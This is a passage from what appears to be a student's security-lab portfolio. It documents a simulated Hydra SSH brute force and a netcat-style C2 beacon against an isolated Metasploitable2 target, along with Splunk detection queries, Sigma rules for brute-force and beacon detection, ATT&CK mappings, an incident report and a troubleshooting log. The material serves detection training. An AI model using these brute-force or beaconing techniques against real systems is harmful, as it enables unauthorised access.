

timeout binary, and subsequent "Connection refused" messages.index=main source="scenario4-beacon-connections.csv" Info="*[SYN]*" extracted_Source="192.168.50.20" | table Time | sort Time | delta Time as gap_seconds | stats avg(gap_seconds) as avg_gap_seconds, stdev(gap_seconds) as stdev_gap_seconds
Result: average gap between beacon attempts: 31.14 seconds. Standard deviation: 1.95 seconds. Independently recalculated directly from the raw CSV (outside Splunk) to confirm accuracy — the numbers matched exactly. A standard deviation this low relative to the average gap indicates highly consistent, machine-generated timing rather than random or human-driven traffic.

| Question | Answer |
|---|---|
| Why is this connection anomalous? | A host repeatedly initiating outbound connections to the same destination at near-identical intervals is not typical of normal user-driven traffic, which tends to be irregular and bursty. |
| What port was used, and is it commonly allowed or overlooked? | Port 4444 was used for lab simplicity; real C2 traffic typically uses a commonly allowed port like 443 or 53 to blend in. This is a limitation of the simulation. |
| How long did each connection stay open, and was data transferred? | The two successful connections completed a full handshake and delivered a small "beacon" payload before closing normally. The six later attempts were refused immediately with no data transferred. |
| What baseline would production need to detect this? | A defined standard-deviation ceiling across a minimum number of repeated connections to the same destination, to distinguish beaconing from coincidentally regular legitimate traffic like an OS update checker. |
| Technique | Name | Justification |
|---|---|---|
| T1071 | Application Layer Protocol | The beacon used a TCP connection to simulate an application-layer C2 channel |
| T1571 | Non-Standard Port | Port 4444 is a well-known non-standard port commonly associated with C2 tooling |
Problem: During testing, the target machine was able to send repeated outbound connections to an external address with no restriction or monitoring in place. A script made connection attempts to that address every 31 seconds, and nothing on the network flagged this pattern.
Why it matters: If this had been real malware instead of a test script, this beaconing pattern would mean the machine is already compromised and is maintaining ongoing contact with an attacker's command server. Without detection, the attacker could continue sending it instructions, pull data out of the network, or trigger further attacks like ransomware at any time.
Fix: Implement monitoring for outbound traffic that connects to the same destination at consistent, repeating time intervals, using the same logic demonstrated in this investigation. Once a low-variance, repeating pattern is identified, it should trigger an alert for investigation, or be blocked outright if the destination is unrecognized or unapproved.
Real lab work does not go in a straight line. This section documents every real technical failure encountered across all four scenarios, and exactly how each was diagnosed and resolved — because a portfolio with zero rough edges usually reads as either fabricated or superficial, and the diagnostic process itself is evidence of real analytical skill.
| Failure | Diagnosis and Resolution |
|---|---|
| Kali and Metasploitable2 IPs reset on every VM reboot | Documented the exact ip addr add / ip link set commands required after every reboot; built this into the standard startup procedure for every scenario. |
| Kali's IP accidentally set to the same address as the target (.20) after a reboot | ping falsely succeeded (Kali pinging itself) while curl/HTTP failed outright with "0 ms, could not connect." Diagnosed via ip addr show | grep 192.168.50, resolved with ip addr del 192.168.50.20/24 dev eth0 followed by re-adding the correct address. |
| Splunk auto-detected the wrong sourcetype for the SSH auth log | Manually overrode the sourcetype to linux_secure during upload, and verified event parsing in the preview pane before proceeding to detection logic. |
| Splunk did not auto-extract the source IP field from the raw auth log | Built a manual rex field extraction (rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+)") into the SPL query rather than relying on automatic field discovery. |
| Splunk alert repeatedly failed to save with error "enable at least one action" | Root-caused to a missing trigger action; resolved by explicitly adding a trigger action (Add to Triggered Alerts) before saving. This recurred in a later session and was resolved the same way both times. |
| Beacon command pasted into Metasploitable2 terminal failed with "command not found" / "Broken pipe" errors | Diagnosed as a clipboard paste issue splitting the command across lines, causing part of it to execute as a separate command. Resolved by typing the command manually instead of pasting. |
Metasploitable2 (Ubuntu 8.04) does not have the timeout binary installed | Attempted sudo apt-get install timeout, which failed since the package doesn't exist under that name and the machine has no internet access anyway (isolated labnet). Used netcat's own built-in -w connection-timeout flag instead (nc -w 2), achieving the same effect without requiring any package install. |
Netcat's -k flag did not keep the Kali listener alive across multiple connections as documented | The listener dropped back to a fresh prompt after each connection closed, requiring manual restarts throughout the beacon capture. Confirmed via Wireshark that the underlying beacon traffic pattern was completely unaffected by the listener's behavior — the capture ran continuously and independently regardless. |
| Beacon connections were refused after the first two successful check-ins | Diagnosed as a listener-availability issue (see above), not a beacon-timing issue. Confirmed the beacon continued attempting to connect on the exact same ~30-second schedule regardless of refusal — itself documented as realistic malware behavior, since a compromised host will continue phoning home even when its C2 server is temporarily unreachable. |
| Wireshark CSV export needed to move from Kali to the Windows host running Splunk, with no shared network path available | Attempted a VirtualBox host-only adapter on Kali, which was found disabled and misconfigured (set to NAT instead of Host-only). Rather than reconfigure networking for a one-time file transfer, used the VirtualBox shared clipboard instead: printed the file contents to the terminal with cat, copied the output, and pasted it into Notepad on Windows, saving with "All Files" type to avoid an unwanted .txt extension being appended. |
| GitHub push rejected with "non-fast-forward" error | Ran git fetch origin and git --no-pager log origin/main --oneline to inspect the actual difference rather than force-pushing blindly. Found the remote had one additional commit (an edit to lessons-learned.md) not present locally. Verified the remote file's actual content before proceeding — confirmed it was empty — and only then performed a force-push, since blindly overwriting without checking first could have destroyed real content. |
| Git push failed with "src refspec main does not match any" | The local repository's default branch was still named master rather than main. Resolved with git branch -M main before pushing. |

ip addr show confirming Kali's IP had been misconfigured to .20, matching the target.


Scenario 2 — SSH Brute Force Detection:
index=main sourcetype=linux_secure "Failed password" | rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+)" | bin _time span=5m | stats count by src_ip, _time | where count > 5
A threshold of more than 5 failures in a 5-minute window was chosen because it sits well above what a legitimate human user would generate by mistyping a password — typically 1 to 3 attempts before either succeeding or giving up. For a service account rather than a human user, this threshold would likely need to be set lower (e.g., >2 or >3 in 5 minutes), since automated service accounts typically don't fail authentication at all under normal operation.
Scenario 4 — Periodic Beacon Detection:
index=main source="scenario4-beacon-connections.csv" Info="*[SYN]*" extracted_Source="192.168.50.20" | table Time | sort Time | delta Time as gap_seconds | stats avg(gap_seconds) as avg_gap_seconds, stdev(gap_seconds) as stdev_gap_seconds
No fixed count-based threshold was used here, since this detection is based on timing consistency rather than volume. A production deployment would need a defined standard-deviation ceiling to formally distinguish genuine beaconing from coincidentally regular legitimate traffic.
Scenario 2's log data required manual field extraction via rex, since Splunk's automatic field extraction did not recognize the source IP within the raw auth.log line format. Scenario 4's data was uploaded as a structured CSV export from Wireshark, which Splunk automatically parsed into individual fields per column, requiring no manual rex extraction. This is a genuine, worth-noting difference in approach depending on log source structure.
Vendor-agnostic Sigma rule translations of both SPL-based detections were authored for portability to any SIEM:
title: SSH Brute Force - Repeated Authentication Failures
status: test
logsource:
product: linux
service: auth
detection:
selection:
message|contains: 'Failed password'
timeframe: 5m
condition: selection | count(src_ip) by src_ip > 5
falsepositives:
- Legitimate user repeatedly mistyping a password
- Misconfigured automated service account retrying a stale credential
level: high
tags:
- attack.credential_access
- attack.t1110.001
title: Periodic Outbound Beacon - Consistent Connection Interval
status: experimental
logsource:
category: network_connection
detection:
selection:
dst_port: 4444
timeframe: 24h
condition: selection | stdev(time_delta) by src_ip, dst_ip < 2
falsepositives:
- Scheduled software update checkers
- License validation or heartbeat health-check agents
level: medium
tags:
- attack.command_and_control
- attack.t1071
- attack.t1571
Title: INC-001: SSH Brute Force Against Metasploitable2 · Analyst: Rithika Gowdelli · Status: Final
A brute-force authentication attack was simulated against the SSH service on an isolated lab target (Metasploitable2, 192.168.50.20) using Hydra with a leaked password wordlist. The attack generated 1,694 failed login attempts from a single source IP (192.168.50.10). The activity was detected in Splunk using a custom SPL query that flagged any source IP exceeding 5 failed attempts within a 5-minute window, identifying two distinct attack windows (1,041 and 653 failures). The finding was independently confirmed at the network packet level via Wireshark, which captured 1,679 packets matching the same SSH traffic. This was a controlled, deliberate test; no real compromise occurred, and the activity is confirmed true positive by design.
Metasploitable2 is an intentionally vulnerable lab target with no rate-limiting, account lockout, or connection-throttling controls on its SSH service by design. This allowed Hydra to make 1,694 login attempts without any pushback or slowdown from the target. This finding demonstrates the analysis and detection method rather than representing a real-world root cause discovery, since the underlying vulnerability was intentionally built into the target for this lab exercise.
In a real environment with a weak or common password on the targeted account, this volume of unrestricted login attempts would very likely have succeeded eventually, granting the attacker full account access and, depending on the account's privileges, potential root-level control of the system. From there, an attacker could establish persistence, move laterally to other systems on the network, or exfiltrate data. Even without a successful login, this volume of failed authentication traffic represents a real load on the target system and a clear signal that should trigger investigation in any monitored environment.
rex extraction — a good example of why understanding Splunk's field extraction mechanics matters beyond just running a search.| Technique ID | Name | Scenario | Justification |
|---|---|---|---|
| T1595 | Active Scanning | 1 | Nmap actively probed 1,000 ports against the target to identify live services |
| T1046 | Network Service Discovery | 1 | Service/version detection fingerprinted exact software versions on every open port |
| T1110.001 | Brute Force: Password Guessing | 2 | Hydra systematically tried a leaked password list against a single known username via SSH |
| T1021.004 | Remote Services: SSH | 2 | The targeted service was SSH remote login |
| T1595.003 | Active Scanning: Wordlist Scanning | 3 | Gobuster systematically requested 4,613 paths from a wordlist against the target web server |
| T1592 | Gather Victim Host Information | 3 | phpinfo.php disclosure provided detailed software version and file path information with no exploitation required |
| T1071 | Application Layer Protocol | 4 | The simulated beacon used a TCP connection to communicate with the listener, simulating an application-layer C2 channel |
| T1571 | Non-Standard Port | 4 | Port 4444 is a well-known non-standard port commonly associated with C2 tooling in real-world attacks |
Pending final write-up.